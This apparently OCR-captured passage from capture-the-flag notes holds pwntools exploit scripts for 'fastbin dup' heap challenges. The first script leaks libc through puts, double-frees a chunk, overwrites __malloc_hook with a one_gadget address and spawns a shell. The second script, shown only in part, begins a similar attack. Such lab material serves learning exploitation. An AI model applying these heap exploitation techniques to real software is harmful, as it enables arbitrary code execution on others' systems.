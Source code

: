 ```python
    io.sendafter(b'data: ', data)
    io.recvuntil(b'> ')
    index += 1
    return index -1
    
def free(id):
    io.send(b'2')
    io.sendafter(b'index: ', f'{id}'.encode())
    io.recvuntil(b'> ')
    
io = start()
io.timeout = 0.1
io.recvuntil(b'puts() @ ')
puts_leak = int(io.recvline(), 16)
info("puts in libc: " + hex(puts_leak))

libc.address = puts_leak - libc.sym['puts']
info("libc: " + hex(libc.address))
send_name(b'Broder')

chunk_A = malloc(0x68, b'a'*0x68)
chunk_B = malloc(0x68, b'b'*0x68)

free(chunk_A)
free(chunk_B)
free(chunk_A)

dup = malloc(0x68, p64(libc.sym['__malloc_hook'] - 35))
malloc(0x68, b'c'*0x68)
malloc(0x68, b'd'*0x68)

malloc(0x68, b'a'*19 + p64(libc.address + 0xe1fa1))


io.interactive()

```

### Fastbin dup 2
***This binary challenge doesn't allow request 0x68 size***

shell.py
```python
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./fastbin_dup_2',checksec=False)

libc = elf.libc

gs = """
b *main
b *main+235
b *main+401
b *main+503
"""
#b *main+298 b *main+473

index = 0

def info(mes):
    return log.info(mes)

```